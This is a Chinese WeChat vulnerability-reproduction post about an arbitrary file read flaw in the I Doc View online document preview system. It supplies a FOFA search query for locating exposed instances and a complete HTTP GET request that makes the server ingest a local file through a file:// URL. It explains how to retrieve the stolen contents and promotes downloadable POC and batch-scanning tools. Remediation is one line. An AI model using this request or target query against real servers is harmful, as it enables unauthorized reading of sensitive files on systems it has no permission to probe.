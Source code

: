 #  ​I Doc View在线文档预览系统存在任意文件读取漏洞 附POC   
 南风漏洞复现文库   2023-12-18 23:33  
  
# I Doc View在线文档预览系统存在任意文件读取漏洞  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. I Doc View在线文档预览系统简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
I Doc View在线文档预览是一款在线文档预览系统，可以实现文档的预览及文档协作编辑功能。  
## 2.漏洞描述  
  
I Doc View在线文档预览采用了前沿的互联网技术，结合了当今客户需要，为个人或第三方应用提供在线文档预览功能，支持在线文档、压缩文件、图纸文件、图片文件、音频播等多种格式的在线预览。该系统存在任意文件读取漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
I Doc View在线文档预览系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b66dta4N2dTkbQ7uKRNqlL3ASe1mkIx6zNRPbJhfwD7rwPnW4dYsKZUx8x09NfJwQxM9yJGibgu4g/640?wx_fmt=jpeg&from=appmsg "null")  
  
I Doc View在线文档预览系统存在任意文件读取漏洞  
## 4.fofa查询语句  
  
title=="在线文档预览 - I Doc View"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/doc/upload?token=testtoken&url=file:///C:/windows/win.ini&name=test.txt  
  
漏洞数据包：  
```
GET /doc/upload?token=testtoken&url=file:///C:/windows/win.ini&name=test.txt HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 127.0.0.1


```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b66dta4N2dTkbQ7uKRNqlLN0e73SABdKIibx8kuVu3Czdica5b1d1PIhCoydjFibreiaR7g5JWahMHiaQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
会返回路径，访问路径，即可看到文件内容  
  
http://127.0.0.1/data/test/2023/1017/17/171836_92_kdCXljt.txt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b66dta4N2dTkbQ7uKRNqlLCleB2vg8c4YwXV3YJwybria0cJMQ1icTMOG2t2PBFm0bC08Fp72yDc5Q/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现91 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b66dta4N2dTkbQ7uKRNqlL4v9A4L8GBGaswxstaceY9xC5o6pOyMEVygZq5KEYlqVD9rbYmk6qGQ/640?wx_fmt=jpeg&from=appmsg "")  
  
**本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b66dta4N2dTkbQ7uKRNqlLINxaBic9DnrVqon8GshmZfs9vbvkfHCtQvWmHjX8SD202uCaSEVVicyA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b66dta4N2dTkbQ7uKRNqlLO5Mjj701oOW2wPmibHBUJPSDhdGpsia3TC4qnjlGyialgqx78TAZtScZQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3b66dta4N2dTkbQ7uKRNqlLGC116eHczs6BBd4YKt9qTOCokhWYIffiaYniauiaIo01tzuMndW7HsuQw/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
更新 I Doc View 在线文档预览系统至安全版本：https://www.idocv.com/  
## 8.往期回顾  
  
[Huawei Auth-HTTP Server 1.0 存在任意文件读取漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484801&idx=1&sn=164e4dce864520e05f4f34f5da34d2bb&chksm=974b8886a03c019010e93be86bebc15816389bedcce85a638cbf058f47fa5d036e38a49dfc01&scene=21#wechat_redirect)  
  
  
[奥威亚视频云平台VideoCover.aspx接口存在任意文件上传漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484789&idx=1&sn=7a1fb2328cb346e2651bea73ba7b37b5&chksm=974b8872a03c01644433773de489243aa05cd330b48e34f215d0f40ca90b2d1395fbe124f1f2&scene=21#wechat_redirect)  
  
  
  
  
